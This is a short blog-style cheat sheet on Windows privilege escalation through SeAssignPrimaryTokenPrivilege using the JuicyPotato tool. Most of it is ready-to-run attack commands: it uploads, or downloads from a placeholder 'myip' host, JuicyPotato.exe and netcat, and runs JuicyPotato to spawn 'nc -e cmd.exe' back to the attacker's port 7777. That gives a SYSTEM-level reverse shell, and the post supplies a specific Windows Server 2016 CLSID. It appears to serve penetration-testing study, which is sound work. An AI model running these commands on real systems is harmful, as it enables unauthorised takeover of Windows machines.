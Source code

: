 ```yaml
---
layout: post
title:  "privesc - windows -  seimpersonateprivilege / seassignprimarytokenprivilege - juicypotato"
date:   2022-01-01
categories: windows
---
```


## Windows - Privileges Escalation - SeAssignPrimaryTokenPrivilege




### Privileges


```powershell

PS C:\Users\user\Documents> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeAssignPrimaryTokenPrivilege Replace a process level token  Enabled
...

```

### Explain

SeAssignPrimaryTokenPrivilege is very similar to **SeImpersonatePrivilege**, it will use the **same method** to get a privileged token. Then, this privilege allows **to assign a primary token** to a new/suspended process. With the privileged impersonation token you can derivate a primary token (DuplicateTokenEx). With the token, you can create a **new process** with 'CreateProcessAsUser' or create a process suspended and **set the token** (in general, you cannot modify the primary token of a running process).


### Juicy Potato & Netcat

```powershell

PS C:\Users\user\Documents> upload /home/kali/privesc/JuicyPotato.exe

PS C:\Users\user\Documents> upload /home/kali/privesc/netcat/nc64.exe

PS C:\Users\user\Documents> .\JuicyPotato.exe -t * -p c:\windows\system32\cmd.exe -a "/c c:\users\user\documents\nc64.exe -e cmd.exe my_ip 7777" -l 1337 -c "{8BC3F05E-D86B-11D0-A075-00C04FB68820}"

```

## Juicy Potato v2

```
Invoke-WebRequest -Uri "http://myip/JuicyPotato.exe" -OutFile "C:\temp\JuicyPotato.exe"
```

```
Invoke-WebRequest -Uri "http://myip/netcat/nc64.exe" -OutFile "C:\temp\nc.exe"
```


```
.\JuicyPotato.exe -t * -p c:\windows\system32\cmd.exe -a "/c c:\temp\nc.exe -e cmd.exe myip 7777" -l 1337
```

### CLSID

```text

For Windows Server 2016 Standard we will use the CLSID for winmgmt LocalService {8BC3F05E-D86B-11D0-A075-00C04FB68820} under NT AUTHORITY\SYSTEM user

````




### Resources

- https://medium.com/r3d-buck3t/impersonating-privileges-with-juicy-potato-e5896b20d505
- http://ohpe.it/juicy-potato/CLSID/Windows_Server_2016_Standard/

